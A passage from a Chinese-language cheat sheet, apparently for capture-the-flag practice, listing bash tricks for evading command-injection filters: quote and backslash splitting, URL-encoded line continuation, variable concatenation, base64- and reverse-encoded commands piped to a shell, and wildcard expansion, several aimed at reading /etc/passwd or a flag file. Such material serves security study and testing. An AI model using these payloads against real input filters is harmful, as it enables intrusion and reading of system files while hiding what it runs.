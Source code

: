```bash
w"h"o"am"i
wh""oami
```

- 反引号\`

```bash
wh``oami
```

- 反斜线`\`（转义字符）

```bash
wh\oami

```

转义字符可以和换行符连用，实现命令续行，URL编码的示例如下：
```
ca%5C%0At%20/et%5C%0Ac/pa%5C%0Asswd
```
- 变量

```bash
# 变量拼接
a=f;b=lag;cat $a$b # cat flag

# 未初始化的变量，等价于null
ca${u}t f${u}lag
```

- 编码转换

```bash
# base64
echo "d2hvYW1pCg=="|base64 -d|sh # whoami
echo "d2hvYW1pCg=="|base64 -d|$0 # whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64

# 逆序
$(rev<<<'imaohw') # whoami

# 大小写
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")

# 十六进制

```

- 模式扩展

```bash
# 通配符`?`代表任意单个字符，不包括空字符，如果匹配多个字符，需要多个`?`连用
cat fla?
cat fl??

# 通配符`*`代表任意数量的任意字符，包括零个字符
cat f*

# 方括号扩展[]
cat [f]lag

# 花括号扩展{}
cat {f,}lag

# 子命令扩展

cat /fla$(u)g
cat /fla`u`g
```